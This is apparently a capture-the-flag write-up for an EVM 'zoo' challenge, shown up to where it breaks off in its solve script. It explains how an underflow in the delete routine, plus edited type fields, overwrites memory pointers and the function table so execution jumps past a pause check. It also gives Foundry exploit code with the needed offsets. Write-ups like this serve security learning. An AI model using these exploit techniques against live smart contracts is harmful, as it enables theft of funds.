 In EVM, we can only jump to JUMPDEST or it reverts. So, to bypass pause check, we should jump to 0x323.

### Plan for Attack
---

there are various ways to manipulate memory :3
1. Set `local_animals` to point to the offset with the target index (as mentioned above).
2. Set the offset of `commit` to 0x323 to bypass the pause check.

I used the bug of in `del`
1. add a `fake_animal` with the target index in the name, and set its index to 0x400 (the offset of the first animal).
2. delete first index to set the 7th offset to 0x400 (offset of first animal)
3. edit 7th type (first animal) to 0x80 (function table offset)
4. delete first index to set the 7th offset to 0x80 (offset of function table)
5. edit 7th type (offset of function_table) to 0x323 (over the pause check logic)
6. edit 6th type (0x400) to 0x300 (offset of local_animal)
7. delete first index to set the 7th offset to local_animal
8. edit 7th type (first offset of local_animal) to 0x460 (offset of fake_animal)
9. only one animal was added, but it was deleted three times, causing the `animal_count` to become a negative number. Now, add three animals to index 1.
10. add length padding to ensure the locate local_animal is located at 0x300

### Solve.s.sol & solve.sh
---

```solidity
pragma solidity ^0.8.25;

import {Script, console2} from "forge-std/Script.sol";

interface Setup {
    function zoo() external view returns (address);
    function isSolved() external view returns (bool);
}

contract Solve is Script {
    function run() public {
        vm.startBroadcast();
        Setup setup = Setup(vm.envAddress("SETUP"));
        console2.log("setup", address(setup));
        address zoo = setup.zoo();
        console2.log("zoo", address(zoo));

        // ADD(1) | IDX(1) | NAME_LENGTH(2) | TYPE(2) | NAME(NAME_LENGTH)
        // EDIT(1) | IDX(1) | EDIT_TYPE(1) | NAME_LENGTH(2) | NAME(NAME_LENGTH)
        // EDIT{1) | IDX(1) | EDIT_TYPE(1) | NEW_TYPE(2)
        // DEL(1) | IDX(1)

        // function pointer: 0x80 ( 0x312 )
        // local animal : 0x300
        // first animal: 0x320
        // first alloc : 0x420
        // fake_animal : 0x460
        // 0x323 : over pause

        uint256 target_idx = uint256(int256(-1)) - uint256(keccak256(abi.encode(2)));
        uint16 target_jmp = 0x323;
        uint16 function_table = 0x80;
        uint16 first_alloc = 0x400;
        uint16 local_animal = 0x300;
        uint16 fake_animal_idx = 0x460;
        target_idx /= 2;
```